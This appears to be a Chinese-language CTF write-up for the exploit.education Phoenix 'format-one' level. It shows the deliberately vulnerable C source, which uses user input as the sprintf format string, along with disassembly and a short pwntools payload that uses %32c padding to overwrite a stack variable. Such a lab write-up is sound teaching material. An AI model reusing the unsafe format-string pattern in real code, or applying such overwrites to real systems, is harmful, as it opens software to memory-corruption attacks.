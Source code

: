 ```c
FORMAT ONE
Even more format string fun!

Source code
/*
 * phoenix/format-one, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * Why did the Tomato blush? It saw the salad dressing!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

这个题挑战成功的条件是：

```c
locals.changeme != 0x45764f6c
```

其实就是想让我们把 `changeme` 覆盖成  `0x45764f6c`

还是利用 格式化字符串的漏洞来制造 `Buffer Overflow` 

就在 ：` sprintf(locals.dest, buffer);`

这里，汇编：

![image-20200513020532554](image-20200513020532554.png)

format string 漏洞的原因就是：既把输入当成格式化字符串又把输入当成第二个参数

```asm
        00400742 48 8d 55 c0     LEA        RDX=>local_48,[RBP + -0x40]
        00400746 48 8d 45 d0     LEA        RAX=>local_38,[RBP + -0x30]
        0040074a 48 89 d6        MOV        RSI,RDX
        0040074d 48 89 c7        MOV        RDI,RAX
        00400750 b8 00 00        MOV        EAX,0x0
                 00 00
        00400755 e8 f6 fd        CALL       sprintf                                          
                 ff ff
```

好了，不说别的，解题，现在很累，有时间再详解

这里要溢出  `locals.dest(rbp - 0x30)`  这个 `buffer` 去覆盖 `changeme(rbp - 0x10)`

 中间要填充 `32 Bytes`

但是我们只能输入 `16` 个 `Bytes` 

![image-20200513021525575](image-20200513021525575.png)

可以利用  `%32c` 来让 `sprintf`  帮我们往  `locals.dest` 写入 `32` 个字符

然后再写入  `0x45764f6c`

payload:

```python
from pwn import *

p = process("./format-one")
v = 0x45764f6c
exp = b"%32c"
exp += p64(v)

p.sendline(exp)
p.interactive()
```

![image-20200513022019842](image-20200513022019842.png)

pwn!